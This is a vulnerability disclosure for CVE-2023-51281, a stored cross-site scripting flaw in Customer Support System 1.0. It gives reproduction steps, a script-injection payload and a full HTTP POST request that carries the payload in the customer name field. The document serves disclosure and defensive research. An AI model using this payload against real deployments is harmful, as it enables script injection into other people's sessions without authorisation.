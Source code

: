 # CVE-2023-51281
# Customer Support System 1.0 - Multiple Cross-Site Scripting (XSS) Vulnerability in “firstname”, "lastname", "middlename", "contact" or “address” parameters

**Description**: Multiple cross-site scripting (XSS) vulnerabilities in /customer_support/ajax.php?action=save_customer in Customer Support System 1.0 allow authenticated attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the “firstname”, "lastname", "middlename", "contact" or “address” parameters.

**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 22/12/2023  
**CVE**: CVE-2023-51281  
**Tested on**: Windows  
### Steps to reproduce:  
1. Log in to the application.  
2. Navigate to "/customer_support/index.php?page=customer_list" to edit an existing customer or "/customer_support/index.php?page=new_customer" to create a new customer.  
3. In the customer edit pages, insert a carefully crafted payload into firstname, lastname, middlename, contact, or address parameters.  
4. Payload: ```</dt></b><script>alert(document.domain)</script>```  
### Resquest:  
```
POST /customer_support/ajax.php?action=save_customer HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------212391604122778812451614149575
Content-Length: 1149
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/customer_support/index.php?page=new_customer
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; PHPSESSID=abige9ar0b1bi3qcf9mkv258o3

-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="id"


-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="firstname"

teste</dt></b><script>alert(document.domain)</script>
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="middlename"


-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="lastname"

xss
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="contact"

210
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="address"

asdasd
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="email"

teste@teste.com
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="password"

xss
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="cpass"

xss
-----------------------------212391604122778812451614149575--
```     
Discoverer(s)/Credits:  
Geraldo Alcântara
